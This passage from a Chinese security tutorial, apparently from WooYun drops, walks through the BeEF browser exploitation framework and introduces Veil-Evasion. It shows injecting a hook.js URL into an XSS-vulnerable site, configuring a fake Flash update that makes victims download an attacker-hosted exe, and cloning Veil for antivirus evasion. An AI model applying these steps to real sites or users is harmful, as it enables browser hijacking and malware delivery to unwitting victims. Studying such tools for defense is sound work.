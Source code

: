 ![Alttext](http://static.wooyun.org//drops/20151130/2015113007112711179p55.png)

连接beef，选择Attacks->BeEF Strike->Start->control BeFFservice，配置beef路径，然后点击strat开启beef服务，之后连接beef服务，如下图：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007112856874p64.png)

点击Conect之后填入beef服务地址，用户名，密码就可以连接beef了，这里比较重要的是这个key，如下图：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007113061275p73.png)

复制这个key，在连接处那里点击key，并将此值填入，就可以正常使用了。

![Alttext](http://static.wooyun.org//drops/20151130/2015113007113287534p83.png)

只需要将<http://192.168.74.144:3000/hook.js>插入存在xss的网站，或者以任意方式执行该js，beef上面就可以看到主机上线了，尝试访问<http://192.168.74.144:3000/demos/basic.html>测试：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007113450346p92.png)

选择一个计算机，点击右键，beef，可以看到其基本信息，右键可以看到beef更多的功能：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007113656370p102.png)

比如社会工程学工具里面的fake flash update，点击此按钮之后输出如下参数配置：

    
    
    "payload_uri":"http://192.168.74.144:81/download/test.exe","image":"http://192.168.74.145:3000/demos/adobe_flash_update.png"
    

如下图：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007113781761p114.png)

之后受害者就会看到一个升级信息：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007113960098p123.png)

点击以后就会下载我们指定的exe。

更多的功能在：

![Alttext](http://static.wooyun.org//drops/20151130/2015113007114279650p133.png)

这里可以设置自动运行的多个命令，有兴趣的小伙伴可以继续进行研究，具体Beef使用详见：[浏览器利用框架BeEF测试](http://drops.wooyun.org/tips/9929)。

# 0x02 Veil_evasion

* * *

Veil是一款利用Metasploit框架生成相兼容的Payload工具，并且在大多数网络环境中Veil 能绕过常见的杀毒软件，可以使用如下命令下载：

    
    
    root@kali:~# git clone https://github.com/Veil-Framework/Veil-Evasion.git
    